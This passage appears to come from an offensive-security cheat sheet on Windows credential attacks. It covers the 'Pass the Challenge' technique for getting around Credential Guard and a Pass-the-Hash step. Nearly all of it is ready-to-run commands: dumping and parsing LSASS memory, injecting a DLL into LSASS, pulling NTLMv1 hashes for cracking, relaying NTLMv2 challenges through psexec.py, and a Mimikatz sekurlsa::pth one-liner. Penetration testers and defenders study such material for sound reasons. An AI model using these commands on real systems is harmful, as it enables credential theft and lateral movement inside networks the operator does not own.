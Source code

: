 This technique permits to retrieve the NT hashes from a LSASS dump when Credential Guard is in place. This[ modified version of Pypykatz](https://github.com/ly4k/Pypykatz) must be used to parse the LDAP dump. Full explains [here](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22).

#### NTLMv1

```powershell
#Dump the LSASS process with Mimikatz for example
#Parse the dump with Pypykatz
python3 -m pypykatz lsa minidump lsass.DMP -p msv

#Inject the SecurityPackage.dll into the LSASS process
./PassTheChallenge.exe inject ./SecurityPackage.dll

#Retrieve the NTLMv1 hash
./PassTheChallenge.exe nthash <context handle>:<proxy info> <encrypted blob>

#Crack the NTLMv1 hash on crack.sh to retrieve the NT hash
```

#### NTLMv2

In case where only NTLMv2 is allowed, it will not be possible to crack the NTLM hash, but it is possible to pass the challenge and provide the response. It is possible to perform this attack with this modified version of [Impacket](https://github.com/ly4k/Impacket). First, as above:

```powershell
#Dump the LSASS process with Mimikatz for example
#Parse the dump with Pypykatz
python3 -m pypykatz lsa minidump lsass.DMP -p msv

#Inject the SecurityPackage.dll into the LSASS process
./PassTheChallenge.exe inject ./SecurityPackage.dll
```

Then, authenticate with an Impacket tool specifying `CHALLENGE` as password, provide the printed challenge to `PassTheChallenge`, and send the computed response to Impacket:

```bash
#Authenticate with CHALLENGE as password
psexec.py 'domain.local/user1:CHALLENGE@target.domain.local'

#Copy paste the challenge to PassTheChallenge.exe and retrieve the response
./PassTheChallenge.exe challenge <context handle>:<proxy info> <encrypted blob> <challenge>

#Paste the response to the Impacket prompt (possible that multiple response are needed)
```

### Pass The Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:<nthash> /run:powershell.exe"'
```

